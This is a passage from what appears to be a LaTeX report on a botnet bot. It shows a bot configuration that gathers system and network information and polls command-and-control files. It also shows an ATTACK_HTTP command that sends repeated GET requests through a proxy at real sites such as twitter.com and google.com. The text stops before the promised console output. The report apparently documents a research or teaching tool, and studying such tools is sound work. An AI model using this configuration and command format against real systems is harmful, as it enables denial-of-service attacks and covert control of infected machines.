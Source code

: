 \section{Sample execution}
\label{sec:sample-execution}

We show here a sample execution to give the reader an idea about how everything works. We suggest the reader to refer to \cite{video-tutorial} to better undesrtand how configuration and commands could be conveniently generated.

In thi example, the bot is run in default mode with the following configuration:

\begin{verbatim}
  cnfInfo: True
  tgtInfo: True
  sysInfo: True
  netInfo: True
  controllers:
    - init: invalid/botinit.json
      command: invalid/botcmd.json
      log: invalid/botlog.json
    - init: controller/botinit.json
      command: controller/botcmd.json
      log: controller/botlog.json
  polling: 90-120:SECONDS
  reconnections: 3
  reconnectionWait: 2-5:SECONDS
  proxy: none
  userAgent: MyAwesomeBot
\end{verbatim}

Notice that the first specified controller is an invalid one - it mimics an unrecheable or compromised contoller.
The controller gives the bot the following \texttt{ATTACK-HTTP} command:

\begin{verbatim}
  {
    "command": "ATTACK_HTTP",
    "attacks": [
      {
        "method": "GET",
        "target": "http://www.twitter.com"
      },
      {
        "method": "GET",
        "target": "http://www.google.com",
        "proxy": "31.220.56.101:80",
        "properties": {
          "User-Agent": "MyAwesomeBot"
        },
        "executions": 3,
        "period": "10-15:SECONDS"
      }
    ]
  }
\end{verbatim}

followed by commands \texttt{REPORT} and \texttt{KILL}.
The following is the console output\footnote{classes and methods name indicated in  have been omitted for better page formatting.}:

